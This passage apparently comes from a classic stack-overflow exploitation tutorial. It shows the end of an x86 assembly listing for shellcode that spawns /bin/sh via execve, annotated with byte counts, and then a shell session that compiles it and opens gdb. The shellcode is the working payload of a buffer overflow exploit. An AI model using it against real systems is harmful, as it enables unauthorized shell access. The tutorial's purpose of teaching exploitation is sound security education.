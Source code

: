 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,0x8(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movb&nbsp; &nbsp;$0x0,0x7(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 4 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0,0xc(%esi)&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 7 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0xb,%eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;%esi,%ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0x8(%esi),%ecx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;leal&nbsp; &nbsp;0xc(%esi),%edx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 3 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x1, %eax&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;movl&nbsp; &nbsp;$0x0, %ebx&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;int&nbsp; &nbsp; $0x80&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 2 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;call&nbsp; &nbsp;-0x2f&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;# 5 bytes

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;.string ""/bin/sh""&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; # 8 bytes

");

}

------------------------------------------------------------------------------

------------------------------------------------------------------------------
  
[aleph1]$ gcc -o shellcodeasm -g -ggdb shellcodeasm.c
  
[aleph1]$ gdb shellcodeasm

GDB is free software and you are welcome to distribute copies of it

under certain conditions; type "show copying" to see the conditions.

There is absolutely no warranty for GDB; type "show warranty" for details.

GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...

(gdb) disassemble main
